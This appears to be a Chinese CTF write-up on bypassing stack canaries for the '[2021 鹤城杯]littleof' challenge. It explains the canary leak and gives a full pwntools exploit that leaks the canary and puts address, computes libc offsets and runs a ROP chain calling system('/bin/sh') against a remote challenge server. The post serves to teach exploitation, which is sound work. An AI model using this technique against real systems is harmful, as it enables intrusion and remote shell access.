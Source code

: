 ```yaml
---
title: PWN入门-Canary
date: 2024-02-23 19:26:44
tags: PWN
mathjax: true
---
```


# PWN入门-Canary

## [2021 鹤城杯]littleof

buf尺寸为0x50，amd64下canary占用后0x8字节，i386下占用0x4字节。为了保证canary能与buf字符串分割开来，设计为小端序最后一个字节为0x00，sendline后自带发送换行符0x0a，即可填充0x00并取得后面0x7字节canary内容。

每次canary内容不同，每次都要重新获取。

开启canary后，0x50-0x8处为canary，0x50处为padding，0x50+0x8处为原ebp。

绕canary劫持plt泄漏puts的got表地址，找libc后重新绕canary打。

libcsearcher日常找不到库。

```python
from pwn import *
context(log_level='debug',os='linux',arch='amd64')
p=remote("node4.anna.nssctf.cn",28262)
elf=ELF('./attachment')
stack_overflow=cyclic(0x50-0x8)
payload1=flat([stack_overflow])
p.recvuntil("Do you know how to do buffer overflow?")
p.sendline(payload1)
p.recvuntil("raaa\n")
canary1=u64(p.recv(7).rjust(8,b'\x00'))
log.success("Canary1:"+str(hex(canary1)))
ret_addr=p64(0x40059e)
pop_rdi_ret_addr=p64(0x400863)
canary_padding=p64(0)
main_addr=p64(0x4006E2)
payload2=flat([stack_overflow,canary1,canary_padding,pop_rdi_ret_addr,elf.got["puts"],elf.plt["puts"],main_addr])
p.recvuntil("Try harder!")
p.sendline(payload2)
puts_real_addr=u64(p.recvuntil(b'\x7f')[-6:].ljust(8,b'\x00'))
log.success("Puts Address:"+str(hex(puts_real_addr)))
libc_addr=puts_real_addr-0x080aa0 #libc6_2.27-3ubuntu1.4_amd64
system_addr=p64(libc_addr+0x04f550)
bin_sh_addr=p64(libc_addr+0x1b3e1a)
p.recvuntil("Do you know how to do buffer overflow?")
payload3=flat([stack_overflow])
p.sendline(payload3)
p.recvuntil("raaa\n")
canary2=u64(p.recv(7).rjust(8,b'\x00'))
payload4=flat([stack_overflow,canary2,canary_padding,ret_addr,pop_rdi_ret_addr,bin_sh_addr,system_addr])
p.recvuntil("Try harder!")
p.sendline(payload4)
p.interactive()
```
